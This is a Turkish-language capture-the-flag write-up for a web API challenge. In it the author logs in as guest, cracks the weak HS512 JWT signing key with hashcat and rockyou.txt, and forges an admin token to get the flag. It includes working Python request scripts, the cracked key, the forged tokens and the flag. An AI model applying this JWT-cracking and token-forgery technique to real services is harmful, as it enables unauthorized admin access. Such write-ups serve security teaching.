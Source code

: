 Siteye girdigimde Authorization basliginin olmadigini soyluyor.

{"Error":"Authorization header not found! Try to login with guest credentials."}

Challange'in aciklamasi 'Frontend is overrated! API rocks!' oldugu icin herhangi bir gorsel form beklemiyordum.

API mantigiyla login page olabilecek sayfalara istek gondermeye basladim.

/login 'i denedigimde method hatasi verdi. Bu istekleri GET method'u ile gonderiyordum.

Post methodu ile gondermeyi deneyince username-password eksik hatasi aldim.

Giris sayfasinda misafir olarak giris yapabilirsiniz dedigi icin kucuk bi yazdim.

```python

#!/usr/bin/python3

import requests as r

data = { 
    "username":"guest",
    "password":"guest"
}

req_post = r.post("http://dctf1-chall-secure-api.westeurope.azurecontainer.io:8080/login", data=data)


```

{"Token":"Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjIxMDQ0NDQ0fQ.180L-byLhnxs-HLuiOHVc7ZlJukDeQn5C1Ll6LE6Tg95cVy5gnwNkAmoMBkSodggLWGyI4cvrJ5m4EuOA_r6Jg"}

Istegim bana JWT token dondurmustu. Online jwt tool araci ile decode ettigimde  

{
  "typ": "JWT",
  "alg": "HS512"
}
{
  "username": "guest",
  "exp": 1621043197
}

icerisinde username parametresinin oldugunu gordum.

Token uzerinde degisiklik yapabilmek icin Token'in imza sifresine ihtiyacim vardi.

Challange'in aciklamasinda 'rocks' geciyordu. Rockyou.txt ile deode etmeyi denedim.

```bash

hashcat -m 16500 hash /usr/share/wordlists/rockyou.txt

```

cok uzun surmeden crack islemini bitirdi ve imza sifresini verdi.

147852369

bu sifre ile Token'deki username kismini admin ile degistirip, sitenin header'ina Authorization ekleyip gonderdim.

```python

import requests as r

header = {
    "Authorization":"Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjIxMDQzMTk3fQ.it7Lbwt35DTecQd7DpZZKpk4qDomCBwoXSaZYtoHK-8Hp4X1PDv2CRVwFrLemhtDlf1t1v72ScEt0IaZdjEFKw"
}

req_get = r.get("http://dctf1-chall-secure-api.westeurope.azurecontainer.io:8080", headers= header)

print(req_get.text)

```

Ve bana sifreyi verdi.

{"Message":"Hi, admin! I have a secret for you.","Secret":"dctf{w34k_k3y5_4r3_n0t_0k4y}"}


-Jb3lp0is